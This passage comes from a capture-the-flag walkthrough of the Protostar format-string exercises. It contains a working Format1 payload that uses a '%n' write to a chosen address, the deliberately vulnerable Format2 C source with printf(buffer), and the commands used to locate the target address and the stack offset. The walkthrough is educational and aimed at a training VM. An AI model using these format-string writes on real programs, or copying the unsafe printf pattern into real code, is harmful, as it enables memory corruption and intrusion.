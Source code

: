 ```lang-bash line-numbers 
/opt/protostar/bin/format1 `python -c 'print("\x38\x96\x04\x08")'`%133\$08n
8you have modified the target :)
```

## Format2
In [Format2](http://www.exploit-exercises.com/protostar/format2) we are given the following vulnerable code:

```lang-clike line-numbers 
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);

  if(target == 64) {
    printf("you have modified the target :)\n");
  } else {
    printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

Ok, lets find the **target** address in BSS:

```lang-bash line-numbers 
user@protostar:~$ objdump -t /opt/protostar/bin/format2 | grep target
080496e4 g     O .bss	00000004              target
```

Now, lets find how far is **buffer**:

```lang-bash line-numbers 
user@protostar:~$ for i in {1..200};do echo DDDD%$i\$08x > temp; echo "trying offset $i - `/opt/protostar/bin/format2 < temp`"; done | grep DDDD44444444
trying offset 4 - DDDD44444444
```

Lets verify it writing "4" (the minimum value we can write since its the number of bytes of the address we want to write in):
